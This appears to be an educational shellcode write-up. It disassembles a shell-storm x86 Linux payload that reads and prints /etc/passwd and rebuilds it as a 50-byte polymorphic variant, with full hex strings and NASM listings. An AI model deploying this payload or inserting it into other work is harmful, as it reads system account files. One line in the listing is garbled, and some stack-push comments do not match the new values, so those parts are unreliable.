 # Shellcode - read /etc/passwd

[http://shell-storm.org/shellcode/files/shellcode-842.php](http://shell-storm.org/shellcode/files/shellcode-842.php)

```c
echo -n "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd\x80" | ndisasm -u -
```


# Disassembled

I have taken the disassembly and put it in a `.nasm` file format as  a starting point. I also marked some important values in comments.

```x86asm
global _start

section .text
_start:
    xor ecx,ecx
    mul ecx
    mov al,0x5      ; open()
    push ecx
    push dword 0x64777373       ; "dwss"
    push dword 0x61702f63       ; "ap/c"
    push dword 0x74652f2f       ; "te//"
    mov ebx,esp
    int 0x80

    xchg eax,ebx
    xchg eax,ecx
    mov al,0x3       ; read()
    xor edx,edx
    mov dx,0xfff
    inc edx
    int 0x80

    xchg eax,edx
    xor eax,eax
    mov al,0x4          ; write()
    mov bl,0x1      ; STDOUT
    int 0x80


    xchg eax,ebx        ; mov 0x1 into eax, exit()
    int 0x80t 0x80

```

# Changes

Since my goal was to reduce the number of bytes for extra credit, I did not change too many things, but the code is polymorphic and differs from the original.

First, I just changed the string that is pushed to the stack from `//etc/passwd` to `/etc//passwd`.

```x86asm
; push dword 0x61702f63       ; "ap/c"
; push dword 0x74652f2f       ; "te//"
push dword 0x61702f2f       ; "ap/c"
push dword 0x6374652f       ; "te//"
```

I then removed the `xor` to clear `edx` as it should have been cleraed from the previous `xor ecx, ecx; mul ecx` instructions. This saves me two bytes from the original shellcode in total length.

```x86asm
; xor edx,edx       
; edx is already cleared from `mul` instruction above 
```

Instead of moving `0xfff` into `dx` and incrementing, I move `0x1001` into `dx` and decrement.

```x86asm
; mov dx,0xfff
; inc edx
mov dx, 0x1001
dec edx
```

Here I change an `xor` with a `sub`. This may not work on all operating systems.

```x86asm
; xor eax,eax
sub eax, eax
```

I then change an `xchg` to a `mov` instruction for the exit() syscall. Since I have removed 2 bytes from the shellcode up until now, this instruction adds one extra byte from the original and places me one byte less than the original for my final shellcode.


```x86asm
; xchg eax,ebx        ; mov 0x1 into eax, exit()
mov al, 0x1
```

# Final Shellcode

```x86asm
global _start

section .text
_start:
    xor ecx,ecx
    mul ecx

    mov al,0x5      ; open()
    push ecx
    push dword 0x64777373       ; "dwss"
    ; push dword 0x61702f63       ; "ap/c"
    ; push dword 0x74652f2f       ; "te//"
    push dword 0x61702f2f       ; "ap/c"
    push dword 0x6374652f       ; "te//"
    
    mov ebx,esp
    int 0x80

    xchg eax,ebx
    xchg eax,ecx
    mov al,0x3       ; read()

    ; xor edx,edx       
    ; edx is already cleared from `mul` instruction above 

    ; mov dx,0xfff
    ; inc edx
    mov dx, 0x1001
    dec edx

    int 0x80

    xchg eax,edx

    ; xor eax,eax
    sub eax, eax
    
    mov al,0x4          ; write()
    mov bl,0x1        ; STDOUT
    int 0x80

    ; xchg eax,ebx        ; mov 0x1 into eax, exit()
    mov al, 0x1

    int 0x80
```

Final Shellcode: 

```c
"\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\x01\x10\x4a\xcd\x80\x92\x29\xc0\xb0\x04\xb3\x01\xcd\x80\xb0\x01\xcd\x80"
```

Original shellcode length: 51 bytes

My shellcode length: 50 bytes